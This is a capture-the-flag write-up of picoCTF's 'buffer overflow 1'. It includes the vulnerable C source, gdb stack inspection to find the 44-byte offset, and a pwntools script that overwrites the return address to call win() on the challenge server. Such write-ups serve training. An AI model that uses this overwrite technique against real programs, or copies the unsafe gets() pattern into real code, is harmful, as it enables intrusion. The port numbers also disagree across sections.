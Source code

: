 # PicoCTF - buffer overflow 1

## Challenge Overview
**Title:** buffer overflow 1  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** vuln.c, vuln

## Description
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source here. And connect with it using nc saturn.picoctf.net 63899

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Analysis
This challenge depicts a classic exploit of the buffer overflow vulnerability.  

### Background Knowledge
Each function allocates itself some space in the stack in which it stores values it needs.  

**x86 Stack Frame Layout**
High Addresses  Local Variables
                Previous EBP
                Return Address
Low Addresses   Arguments

This means, that a buffer overflow in a local variable can overwrite the return address and control where the function will return to.
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
```
`vuln()` contains a local buffer of size 32 and uses `gets()` which doesn't protect against buffer overflow.  

So we can overwrite the return address and make return to the return function.

To construct the payload I will use `gdb` to inspect the stack and calculate the length of our input needed to overwrite the return address.  
I set a breakpoint after the `gets` cll in `vuln`
```
b *0x080492a3
```
I launch the program and enter `AAAAAAA` as my input and inspect the stack
```
(gdb) r
Starting program: /home/giorgos/Downloads/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
AAAAAAA

Breakpoint 1, 0x080492a3 in vuln ()
(gdb) x/32x $ebp-64
0xffffcd88:	0xffffcdc8	0x080492a3	0xffffcda0	0x0804c000
0xffffcd98:	0xf7f9de34	0x08049291	0x41414141	0x00414141
0xffffcda8:	0x00000000	0x0804c000	0x08049350	0xf7ffcb60
0xffffcdb8:	0xffffcde8	0x08049327	0x0804a0a0	0x0804c000
0xffffcdc8:	0xffffcde8	0x0804932f	0xffffffff	0xf7d7e96c
```
We see where our input starts and where the return address (0x0804932f) is and find how many bytes are needed to reach it
Input start:    0xffffcda0
Return address: 0xffffcdcc
Bytes: 0x2C or 44 in decimal

So we need 44 As to reach the return address and then we can append the address we want

To create the payload I will use the following Python script
### Python Script - Payload Generation
```python
from pwn import *


def construct_payload(addr):

    chunks = [addr[i:i+2] for i in range(0, len(addr), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]

    payload = 'A'*44
    payload += ''.join(hex_bytes)
    return payload


def main():
    win_addr = "080491f6"
    payload = construct_payload(win_addr)
    print(payload)

main()
```
This creates the following payload
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08
```
The `\xf6\x91\x04\x08` is the format `printf` will need to convert this bytes to the respective characters since they might not be printable

Back in gdb, in order to pipe the result of we can use
```
r < <(printf "$(python generate_payload.py)")
```

And we see that we are successful
```
Continuing.
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
```

Now all we need to do is provide the our payload to the server.  
We can do so using `pwntools` in Python
```python
from pwn import *


def construct_payload(addr):

    chunks = [addr[i:i+2] for i in range(0, len(addr), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]

    payload = 'A'*44
    payload += ''.join(hex_bytes)
    return payload.encode().decode('unicode_escape').encode('latin1')


def send_to_server(payload):
    # Connect to the remote server
    host = 'saturn.picoctf.net'
    port = 50253
    conn = remote(host, port)

    print(conn.recv())
    conn.sendline(payload)

    # Receive the server's response
    response = conn.recvall()
    # Close the connection
    conn.close()
    
    return response


def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def main():
    win_addr = "080491f6"
    payload = construct_payload(win_addr)
    server_output = send_to_server(payload)
    print(get_flag(server_output.decode('utf-8', errors='ignore')))


main()
```
```
$ python script.py          
[+] Opening connection to saturn.picoctf.net on port 53110: Done
b'Please enter your string: \n'
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port 53110
picoCTF{____REDACTED____}
```
This generates the payload, sends it to the server and prints the flag

## Solution
- Find distance of `buf` in `vuln()` from the return address
- Override return address with the address of `win()`

## Tools Used
- `gdb`